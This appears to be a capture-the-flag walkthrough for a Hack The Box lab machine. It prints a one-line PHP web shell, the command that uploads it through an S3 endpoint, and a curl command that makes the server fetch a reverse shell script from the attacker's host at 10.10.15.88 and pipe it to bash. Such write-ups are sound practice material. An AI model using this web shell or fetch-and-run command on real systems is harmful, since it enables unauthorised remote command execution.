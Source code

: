1. First we identify open ports on the machine
2. We identify subdomains
3. Identify which programming language is running on the machine
4. Start doing operations on the services running on the subdomains
5. Create shell.php file to execute commands on the server
6. Get a reverse shell on the server
7. Get the flag

```shell
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

```shell
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

```php
<?php system($_GET["cmd"]); ?>
```

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now if we go to the following URL we can execute commands on the server:

http://thetoppers.htb/shell.php?cmd=id

```shell
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

Wit this knowledge we can now try to get a reverse shell on the server. We can use the script I have under scripts/reverse.sh

Also we are going to need a python server to host the reverse shell script. We can do this by running the following command:

```shell
python3 -m http.server 1234
```

Now we need to download the reverse shell script to the server. We can do this by running the following command:

```shell
curl http://thetoppers.htb/shell.php?cmd=curl%2010.10.15.88:1234/scripts/reverse.sh|bash
```

With this we should have a reverse shell on the server. We can check this by running the following command:

Now do a "cd .." and there is the flag.

```shell
cat flag.txt
```

```shell